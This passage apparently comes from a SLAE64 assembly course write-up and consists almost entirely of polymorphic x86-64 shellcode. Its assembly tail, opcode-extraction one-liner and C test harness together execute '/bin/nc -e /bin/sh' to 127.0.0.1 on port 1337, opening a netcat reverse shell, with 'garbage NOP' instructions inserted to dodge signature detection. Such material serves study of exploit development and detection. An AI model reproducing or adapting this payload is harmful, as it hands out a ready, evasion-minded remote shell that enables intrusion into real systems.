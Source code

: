 ```term
push	r9   ;push address of 'ip'

inc bl                                              ; Garbage NOP
dec bl                                              ; Garbage NOP

push 	rdi  ;push address of '/bin/nc'

nop                                                 ; Garbage NOP
mov    	rsi,rsp
mov al, 59

syscall

ip:
	call  continue
	db "127.0.0.1"
```

Let's assemble, link, and test this shellcode.

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_6/3_shellcode$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d ./1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```

###### C format

```term
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x48\x31\xd2\x90\x90\x48\xbf\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x48\xc1\xef\x08\xfe\xc8\x57\x48\x89\xe7\x48\xb9\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xe9\x08\xfe\xc8\x51\xfe\xc1
\xfe\xc9\x48\x89\xe1\x48\xbb\xff\xff\xff\xff\xff\xff\x2d\x65\xfd\x66\x99\x48\xc1\xeb\x30\xf5\x53\x48\x89\xe3\x49\xba\xff\xff\xff\xff\x31\x33\x33\x37\x49\xc1\xea\x20\xfd\x41\x52\
x49\x89\xe2\xeb\x22\x41\x59\x52\x51\x90\xfe\xc2\xfe\xca\x53\xfe\xc1\xfe\xc9\x90\x41\x52\xfe\xc8\x41\x51\xfe\xc3\xfe\xcb\x57\x90\x48\x89\xe6\xb0\x3b\x0f\x05\xe8\xd9\xff\xff\xff\x
31\x32\x37\x2e\x30\x2e\x30\x2e\x31"

;

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
